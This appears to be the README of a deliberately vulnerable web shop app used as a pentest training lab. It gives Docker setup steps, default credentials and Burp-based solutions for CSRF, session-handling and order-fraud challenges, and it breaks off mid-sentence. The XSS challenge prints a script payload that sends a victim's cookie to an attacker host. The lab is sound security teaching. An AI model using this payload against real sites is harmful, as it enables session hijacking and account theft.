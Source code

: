 [![Docker](https://github.com/BenjiTrapp/Project-Makalu/actions/workflows/docker-publish.yml/badge.svg)](https://github.com/BenjiTrapp/Project-Makalu/actions/workflows/docker-publish.yml)

<p align="center">
<img src="static/project-makalu.png">
</p>

### Project [Makalu](https://de.wikipedia.org/wiki/Makalu) 
In the course of the new online store of the **anna group** a new session handling is needed. The code presented here 
code is about to go live. In spite of the rapid development there are doubts whether
 something important has been forgotten?

### Motivation
Modern WebApps sometimes have an enormous complexity. In order to protect the customer from possible attacks, among other things, requests made to a WebApp require a login session. A request usually requires the data from a previous 
previous response (e.g. CSRF tokens). The data received in a partial request may also be needed some requests later, e.g. during checkout. 
such as during the checkout process. This makes the use of "unique" names/IDs during the creation of a request necessary. 
 
**Remark**: Fuzzing e.g. in the context of a CSRF token, generates a lot of data as well as calls within the WebApplication. This can affect the performance of the entire application in the event of an attack. The performance itself,
is NOT the focus of this penetration test, but can become a "problem" for the attack, depending on the chosen fuzzing method. 

## Problem Statement:
 Help the **anna group** to test the security of the session handling through a penetration test. To fulfill this request
 the application must first be installed and made operational. Here helps 
 the following instructions will certainly help:
 
## Install & launch the WebApp
1. using Docker
     ```bash
     $ docker pull ghcr.io/benjitrapp/project-makalu:main
     $ docker run -d -p 4711:4711 benjitrapp/project-makalu
     => open in browser: "http://localhost:4711"
     ```
2. Using Docker Compose
     ```bash
     1. pull Git repository from GitHub (git pull https://github.com/BenjiTrapp/Project-Makalu.git)
     2. change to the directory
     3. $ docker-compose up
     4. open in browser: ``http://localhost:4711``
     ```
3. locally in the IDE
     ```bash
     1. edit the file https://github.com/BenjiTrapp/Project-Makalu/blob/master/ProjectMakaluApp.py: 
            Change host in main method from 0.0.0.0 to 127.0.0.1. 2.
     2. start edited main method in IDE e.g. PyCharm
     ```

##### [Credentials](https://www.heise.de/security/meldung/hallo-ist-meistgenutztes-deutsches-Passwort-auf-Platz-zehn-steht-ficken-3579567.html): user/hallo

## Execution of the penetration test
The following use cases exist for the test. To perform the penetration test the file 
"/doc/Burp.burp-projectopts.json" can be loaded as a project using [Burp](https://portswigger.net/burp/freedownload/). 
can be loaded. The JSON file contains all session handling rules to solve the following challenges.
to solve. The challenges can of course also be solved with other tools such as OWASP ZAP.

#### Use Case: Build your own CSRF token
```
[Challenge]: The transmitted CSRF token must match and be transmitted with every POST request.

[Solution]:
* Capture the request from an existing CSRF token.
* Create a "Run a Macro" session handling rule
    * Scope the CSRF token parameters.
    * Update the CSRF token ONLY in the currently submitted request.
```

#### Use Case: Take over another user's session using [XSS gap](https://www.owasp.org/index.php/Testing_for_Cross_site_scripting)

```
[Challenge]: Find an input field that contains an XSS vulnerability and use it to hijack an unsuspecting victim's session.

[Solution]:
* Place inline JavaScript in a suitable location such as: 
    <script>window.location="http://evil.ru/?cookie=" + document.cookie;</script> 
* Extract the captured cookie from the request and take over the session. 
```

#### Use Case: Keep the login session open
```
[Challenge]: With a probability of 5%, WebApplications terminate the login session.

[Solution]:
* Capture the login request in a macro.
* Create a "Check Session is Valid" rule
    * Create a request
    * Check the response body for a username for the valid session
    * Alternatively, check the redirection of the login URL (the session must be invalid for this case)
    * Play the recorded macro when the session is invalidated
```
    
#### Use Case: commit order fraud 
```
[Challenge]: Perform multiple requests until the final order confirmation appears.

[Solution]:
* Perform all requests until one can be fuzzed using a macro.
* Finalize the order fraud with a "Run a Post-Request Macro", that will confirm the

